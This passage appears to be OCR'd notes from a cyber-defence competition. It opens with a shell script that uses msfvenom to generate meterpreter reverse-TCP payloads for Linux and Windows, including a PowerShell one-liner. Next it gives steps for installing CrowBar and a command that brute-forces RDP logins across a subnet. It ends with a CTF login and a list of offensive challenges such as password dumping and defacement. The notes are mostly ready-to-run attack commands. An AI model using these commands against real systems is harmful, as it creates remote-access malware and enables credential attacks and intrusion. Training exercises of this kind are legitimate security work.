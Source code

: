 echo $1
echo "\[+\] generating x86linux: linux_5555.elf"
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=$1 LPORT=5555 -f elf > linux\_5555.elf
echo "\[+\] generating x64linux: linux_6666.elf"
msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=$1 LPORT=6666 -f elf > linux\_6666.elf
echo "\[+\] generating x86windo: windows_31337.exe"
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=$1 LPORT=31337 -f exe > windows\_31337.exe
echo "\[+\] generating x86windo - cmd prompt oneliner: windows_cmd.txt"
msfvenom -p windows/meterpreter/reverse\_tcp -f psh-cmd LHOST=$1 LPORT=31337 > windows\_cmd.txt
```


## CrowBar

```
# apt-get -y install openvpn freerdp-x11 vncviewer

```

```
git clone https://github.com/galkan/crowbar
```

```
./crowbar.py -b rdp -s 10.10.2.0/24 -u administrator -c changeme-2018!
```
## CTF
Username : ShadowFuchsia
Password : 69

We have a couple of challenges which we can solve for extra points

These are pwn challs, I guess we just ask a white teamer to verify these

De@L_w!tH_the_D3vi1
25
Trade with redteam to obtain access to another teams system.

I Can See Clearly Now That The Rain Is Gone
25
Extract a plaintext password dump from another team’s system.

A new face for Jessie
25
Deface another team’s website.

Tunnel Snakes Rule
25
Redirect another team’s ssh service to another team’s system.

Behaving Badly
25
Upload a malicious group policy object to another system.

Bring it Home
25
Configure a site to site VPN to another team without their permission.

I Like To Move It, Move it
25
Access another team’s infrastructure from their own chair

Spiders… EVERYWHERE
25
```